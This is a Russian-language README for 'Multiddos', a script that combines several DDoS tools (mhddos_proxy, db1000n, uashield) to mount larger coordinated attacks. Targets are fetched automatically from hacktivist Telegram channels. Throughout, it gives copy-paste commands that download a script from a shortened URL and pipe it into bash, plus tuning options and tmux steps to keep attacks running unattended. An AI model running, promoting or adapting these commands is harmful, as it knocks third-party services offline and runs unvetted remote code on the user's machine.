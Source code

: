 ## Multiddos - скрипт объединяющий в себе несколько утилит для ddos
Идея скрипта заключается в том, чтобы автоматизировать сразу несколько утилит, объединить несколько групп в более массированные атаки, а также не давать простаивать свободным ресурсам на VPS.

![multiddos](https://user-images.githubusercontent.com/53382906/161972523-a1197762-a166-45f2-9b68-6e13cc940d99.gif)

На данный момент скрипт поддерживает:
* [Multiddos](https://github.com/KarboDuck/multiddos), ранее известный как auto_mhddos (обвертка для mhddos_proxy) от Украинского Жнеца ([канал](https://t.me/ukrainian_reaper_ddos), [чат](https://t.me/+azRzzKp-STpkMjNi))
* [db1000n ](https://github.com/Arriven/db1000n) от IT ARMY of Ukraine ([канал](https://t.me/itarmyofukraine2022), чат)
* [UA Cyber SHIELD](https://github.com/opengs/uashield) ([канал](https://t.me/uashield), чат) 

Все утилиты автоматизированы, то есть автоматически обновляются при запуске и автоматически подтягивают новые цели из своих каналов.

## Команда для запуска в Linux

Рекомендуется использовать этот метод
```
curl -L tiny.one/multiddos | bash && tmux a
```

Если закрыть терминал или оборвать ssh сессию, то программы не закроются, а будут дальше работать в фоне. Позднее все программы можно снова вывести на экран с помощью утилиты Tmux.

Внутри окна Multiddos по умолчанию запускается утилита для мониторинга gotop (можно смотреть за исходящим трафиком, нагрузкой на процессор, и использованием RAM), multiddos и db1000n.

Если у вас слабый процессор, то снизьте количество потоков (threads) c 1000 (по умолчанию) до 500:

```
curl -L tiny.one/multiddos -o mul.ti && bash mul.ti -t 500 && tmux a
```
Увеличивать количество потоков не рекомендуется, если вы точно не уверены в том, что делаете. Это может привести к противоположному результату - снижению скорости атаки.

## Управление Tmux

* **Свернуть Tmux**. Программы продолжат работать в фоне, и к сессии можно будет позже снова подключиться. `Нажмите Ctrl+b` отпустите `Нажмите d`
* **Закрыть сессию Tmux**. Сначала выйдите из Tmux: `Нажмите Ctrl+b` отпустите `Нажмите d`. Выполните в терминале команду `tmux kill-session -t multiddos`
* **Переподключиться к сессии Tmux**. Если у вас всего одна сессия Tmux, то используйте: `tmux a` (tmux attach). Если у вас несколько сессий, подключайтесь по имени: `tmux attach-session -t multiddos`

## Закрыть все программы
Поскольку программы продолжат работать в фоне после закрытия терминала, закрывать их нужно другими способами.

1. В другом терминале выполнить команду:
```
pkill tmux; pkill node; pkill shield; pkill -f start.py; pkill -f runner.py
```

2. Или при желании просто перезагрузить компьютер/виртуалку.

## Запуск в фоне
<details>
  <summary>развернуть</summary>
  
То же самое что и обычный запуск, но программы будут работать в фоне. Соответственно просто удаляем вызов Tmux в конце команды.

```
curl -L tiny.one/multiddos | bash
```
Чтобы обратно подключиться к сессии tmux (вывести программы на экран) прочитайте раздел **Управление Tmux**.
 
</details>

## Выбор конфигурации

<details>
  <summary>развернуть</summary>
  

Multiddos запускается по умолчанию с gotop, multiddos и db1000n. Это стандартная конфигурация. Из этой конфигурации можно убрать gotop или db1000n. Или добавить в нее утилиты: uashield, vnstat, matrix.

Для того, чтобы убрать утилиту используется ключ со знаком "-":

`-g` убрать gotop

`-d` убрать db1000n

Для того, чтобы добавить утилиту используется ключ со знаком "+":

`+u` добавить uashield

`+v` добавить vnstat -l (мониторинг трафика)

`+m` добавить matrix (эффект матрицы)

Пример команды:

```
curl -L tiny.one/multiddos -o mul.ti && bash mul.ti -d +m && tmux a
```
убрать db1000n и добавить matrix

</details>

## Решение проблем
<details>
  <summary>развернуть</summary>
 
Скрипт может не дружить с запуском на виртуалке, или даже на обычном ПК, подключенном к Интернету через Wi-Fi. Возможны глюки сетевого адаптера. Вероятно большое кол-во сетевых пакетов перегружает некоторое сетевое оборудование. Ошибки вылазят самые разнообразные. Пробуйте перезагрузить систему и запустить снова.

На vps и ПК подключенных через Ethernet такие проблемы как правило не наблюдаются.
 
</details>